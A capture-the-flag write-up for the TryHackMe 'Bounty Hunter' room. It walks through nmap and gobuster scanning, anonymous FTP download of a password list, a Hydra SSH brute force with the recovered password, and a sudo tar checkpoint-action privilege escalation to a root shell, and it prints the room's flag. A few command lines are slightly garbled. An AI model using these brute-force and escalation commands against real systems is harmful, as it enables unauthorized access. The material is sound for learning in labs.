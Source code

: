 ```yaml
---
title: TryHackMe - Bounty hunter
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe, Easy]
tags: [tryhackme, linux, nmap, privesc, ftp, hydra, ssh, gpg, john, SUID]
---
```


### nmap

```sh
sudo nmap -sS -sC -v 10.10.71.74
	Discovered open port 80/tcp on 10.10.71.74
	Discovered open port 22/tcp on 10.10.71.74
	Discovered open port 21/tcp on 10.10.71.74
```

### Http_port 80

`http://10.10.71.74/`

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.71.74
```

### ftp

from the `nmap` scan
```

		| ftp-anon: Anonymous FTP login allowed (FTP code 230)
		| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
		|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

```sh
get locks.txt 
get task.txt
```

**The files**
- `locks.txt` is a word-list with passwords
- `task.txt` is a file created by `lin` *who i guess is a user*

### hydra
We use hydra to brute force the ssh
```sh
hydra -l lin -P locks.txt 10.10.71.74 ssh
```

Port 22 (ssh) 
host: 10.10.71.74
login: `lin`
password: `RedDr4gonSynd1cat3`

### ssh
```sh
ssh lin@10.10.7174
```
 	
```sh
sudo -l
/usr/lib
```

- Shell(syntax)
It can be used to break out from restricted environments by spawning an interactive system shell.

    tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
- Command 
```sh
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```sh
find / -name "root.txt" 2>/dev/null
cat root.txt
	#THM{80UN7Y_h4cK3r}
```
